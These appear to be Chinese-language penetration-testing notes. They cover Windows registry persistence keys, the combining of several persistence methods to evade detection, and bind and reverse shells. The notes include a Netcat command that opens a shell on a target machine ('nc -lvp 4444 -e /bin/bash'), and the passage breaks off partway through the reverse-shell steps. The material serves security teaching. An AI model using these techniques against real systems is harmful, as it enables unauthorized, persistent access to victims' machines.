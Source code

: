 - **常用持久化登錄檔位置**：
  - `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`（當前使用者）
  - `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`（系統全局，需要管理員權限）
  - `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`（僅執行一次）

- **進階登錄檔持久化技術**：
  - 使用 PowerShell 修改登錄檔實現持久化
  - 利用 WMI 訂閱事件來觸發惡意程式執行
  - 修改 UserInit 相關登錄檔鍵值改變系統登入後的 shell

## 綜合應用

- 實際滲透測試中應結合多種持久化方法：
  - 建立排程任務確保每小時執行惡意程式
  - 設置系統服務確保開機時啟動惡意程式
  - 修改登錄檔確保使用者登入時執行惡意程式

- 多種方法並用的優勢：
  - 提高在目標環境中的存活率
  - 增加檢測難度
  - 確保在各種系統狀態下都能維持存取權

# 遠端殼層

- **Remote Shell**（遠端殼層）：一種在已被入侵的系統上建立和維持控制的工具。
  - 主要有兩種類型：反向 Shell（Reverse Shell）和綁定（正向）Shell（Bind Shell）

## 正向殼層綁定

- **Bind Shell**（綁定 Shell）：一種遠端 Shell，目標機器開放特定端口並監聽攻擊者的連接。
  - 攻擊者是發起連接的一方，而不是目標機器
  - 攻擊者可以連接到這個端口以獲取訪問權限
  - 在惡意軟體中，綁定 Shell 通常被稱為後門（backdoor）

- **使用 Netcat 建立綁定 Shell 的步驟**：
  1. 在目標機器上設置監聽： `nc -lvp 4444 -e /bin/bash`
     - 與反向 Shell 相比，這次是在目標機器上設置監聽
     - `-e` 參數指定要讓目標機器執行的命令
  
  2. 在攻擊者機器上發起連接： `nc 10.0.0.3 4444`
     - 攻擊者連接到目標機器的開放端口

## 反向殼層綁定

- **Reverse Shell**（反向 Shell）：一種遠端殼層，由目標機器主動向攻擊者的機器發起連接。
  - 常用於繞過防火牆和網路安全設備，因為對外連線通常被防火牆允許
  - 連接是由被入侵的機器發起，而非攻擊者的機器

- **使用 Netcat 建立反向殼層的步驟**：
  1. 在攻擊者機器上設置監聽器： `nc -lvp 4444`
     - `nc`：呼叫 Netcat 程式
     - `-l`：監聽傳入連接
     - `-v`：啟用詳細模式，提供更詳細的輸出
     - `-p`：指定監聽的端口（此例為 4444）
  